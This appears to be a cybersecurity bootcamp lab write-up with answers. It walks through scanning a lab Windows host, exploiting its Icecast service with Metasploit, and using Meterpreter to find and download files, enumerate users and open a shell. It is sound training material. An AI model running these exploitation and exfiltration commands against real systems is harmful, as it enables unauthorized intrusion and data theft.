#### Deliverable
Once you complete this assignment, submit your findings in the following document: 

- [Report.docx](Resources/Report-JRB.pdf)
 
### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: `nmap -sS -sV -O 192.168.0.20`

      ![](Images/nmap_scan_target_icecast.png)
 
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: `searchsploit icecast`

     ![](Images/searchsploit_icecast.png)

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer: `msfconsole`

     ![](Images/start_metasploit.png)
 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: `search icecast`

     ![](Images/search_icecast.png)
 

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: `use 0` or `use exploit/windows/http/icecast_header`

     ![](Images/use_icecast_module.png)
 
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > Answer: `set RHOST 192.168.0.20`

     ![](Images/set_rhost.png)
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: `exploit`

     ![](Images/exploit_DVW10.png)
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: `search -f *secretfile*.txt`

     ![](Images/search_secretfile.png)
  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: `search -f *recipe*.txt`

      ![](Images/search_recipe.PNG)
 
 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:


      > Answer: `download 'c:\Users\IEUsers\Documents\Drinks.recipe.txt'`

      ![](Images/download_drinks_recipe.png)
      
      ![](Images/exfiltrate_files.png)
 

8. You can also use Meterpreter's local exploit suggester to find possible exploits.

 
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

   > Answer: `run/post/multi/recon/local_exploit_suggester`

   ![](Images/exploit_suggester.png)

 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

   > Answer: `run post/windows/gather/enum_logged_on_users`

   ![](Images/enum_logged_on_users.png)
 
     
B. Open a Meterpreter shell. 
 
   > Answer: `shell` & `systeminfo`

    ![](Images/DVW10_systeminfo.png)


 
C. Run the command that displays the target's computer system information:

   > Answer: `sysinfo`

   ![](Images/target_comp_info.png)



---

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
